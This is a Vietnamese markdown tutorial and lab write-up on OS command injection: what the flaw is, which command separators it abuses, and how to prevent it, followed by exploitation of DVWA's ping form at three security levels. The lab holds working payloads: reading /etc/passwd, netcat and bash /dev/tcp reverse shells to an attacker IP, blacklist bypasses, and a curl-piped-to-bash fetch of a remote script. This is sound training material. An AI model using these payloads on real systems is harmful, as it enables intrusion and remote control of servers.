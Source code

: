 # **OS command injection**

## **OS command injection là gì?**

![](./images/14-24-57.png)

- OS command injection (Shell injection) là một lỗ hổng bảo mật web cho phép kẻ tấn công thực thi các lệnh hệ điều hành OS tùy ý trên máy chủ đang chạy ứng dụng. Rất thường xuyên. kẻ tấn công có thể tận dụng lỗ hổng os command để xâm phậm các phần khác của database, khai thác các mỗi quan hệ tin cậy để chuyển cuộc tấn công sang các hệ thống khác trong tổ chức.

## **Các cách dùng để Command Injection**

- Đầu tiên cần phải xác định được hệ thống target đang hoạt động là gì, Windows hay Linux? Một số ký tự có chức năng phân tách lệnh, cho phép các lệnh nối với nhau:
  - &
  - &&
  - |
  - ||
- Các bộ tách lệnh sau chỉ hoạt động trên các hệ thống dựa trên Unix:
  - ;
  - Newline (0x0a or \n)
- \`
injected command `
- $(injected command )

## **Làm sao để ngăn ngừa Command Injection**

- Cách hiệu quả nhất để ngăn ngừa command injection là không dùng command nữa. Tức là không bao giờ gọi ra các lệnh OS từ lớp ứng dụng. Trong các trường hợp, có nhiều cách khác nhau để thực hiện chức năng cần thiết bằng cách sử dụng API trên nền tảng an toàn hơn. Nếu không thể tránh khỏi việc sử dụng các lệnh OS thì phải thực hiện xác thực đầu vào mạnh

  - Chỉ chấp nhận đối với các giá trị được phép
  - Chỉ chấp nhận đầu vào là một số
  - Chỉ chấp nhận đầu vào chỉ có ký tự chữ và số, không có ký tự đặc biệt, khoảng trắng,...

## **Lab: Khai thác lỗ hổng OS command injection trên DVWA**

1. Mức độ **Low-level-security**

   ![](./images/14-45-25.png)

   Ta thấy giao diện hiển thị một form text để nhập input (giá trị **IP address**). Thử kiểm tra *View Source* của trang web thì thấy rằng các giá trị input đầu vào không được **validate**
   
   ![](./images/14-52-32.png)

   Từ *View Source* ta thấy đây là một đoạn mã PHP thực hiện thao tác "ping" đến một địa chỉ IP do người dùng cung cấp. Tuy nhiên điểm nguy hiểm nằm ở dòng code này:
   ```php
   $cmd = shell_exec( 'ping  ' . $target );
   ```

   Do `$target` không được kiểm tra hoặc làm sạch (sanitize), nên nếu người dùng nhập một chuỗi có ký tự shell như `&`, `;`, `|`, họ có thể chèn thêm lệnh tùy ý.

   Ta thử dùng payload sau để khai thác

   ```
   127.0.0.1; uname -a
   ```

   ![](./images/15-09-35.png)
   > Kết quả là ta có thể biết được hệ điều hành đang sử dụng là gì.

   Tiếp tục sử dụng payload khác để đọc các file hệ thống nhạy cảm
   ```
   127.0.0.1; cat /etc/passwd
   ```
   
   ![](./images/15-15-04.png)
   > Kết quả điều này sẽ tiết lộ thông tin người dùng hệ thống.
   
   Tôi sẽ sử dụng 1 payload tạo ra **reverse shell** kết nối tới máy *attacker*(giả sử IP là: 192.168.100.139)

   ```
   8.8.8.8 && nc -e /bin/sh 192.168.100.139 8888
   ```
   
   ![](./images/15-40-44.png)

2. Mức độ **Medium-level-security**

   Kiểm tra *View Source* ta thấy được so với mức **Low**, mức **Medium** đã có bước cải thiện về mặt bảo mật, nhưng vẫn chưa an toàn tuyệt đối.

   ![](./images/15-50-25.png)

   Đây là một form web cho phép người dùng nhập địa chỉ IP để chạy lệnh `ping` từ phía server. Đã có cố gắng lọc lệnh độc hại như: `&&`, `;`. Xong, vì blacklist chỉ loại bỏ một vài chuỗi cụ thể, nên attacker vẫn có thể chèn lệnh bằng cách khác.

   Dùng `|` hoặc `||` để nối lệnh thay vì `;` hay `&&`:
   ```
   8.8.8.8 | nc -e /bin/sh 192.168.100.139 8888
   ```
   
   ![](./images/15-57-20.png)
   > Kết quả là vẫn có thể tạo 1 **reverse shell** kết nối tới máy *attacker* thành công.

3. Mức độ **High-level-security**

   Kiểm tra *View Source* ta thấy được ở mức độ này đã có bước cải thiện lớn về mặt bảo mật so với 2 mức độ trước vì blacklist đã mở rộng hơn đáng kể. Tuy nhiên có 1 chỗ đáng chú ý, đó là chỉ có '| ' (pipe + dấu cách) bị lọc, nhưng '|' đơn lẻ không bị lọc. Do đó, attacker chỉ cần bỏ dấu cách là bypass được hoàn toàn. 

   ![](./images/16-42-12.png)

   Viết 1 shell script reverse shell trên attacker
   ```bash
   echo 'bash -i >& /dev/tcp/192.168.100.139/8888 0>&1' > shell.sh
   python3 -m http.server 8000
   ```
   ![](./images/17-06-45.png)

   Mở listener:
   ```bash
   nc -lvnp 8888
   ```

   Gửi payload trên DVWA (web form):
   ```bash
   8.8.8.8|curl http://192.168.100.139:8000/shell.sh|bash
   ```
   ![](./images/17-08-06.png)

   > Kết quả là vẫn có thể tạo 1 **reverse shell** kết nối tới máy *attacker* thành công.


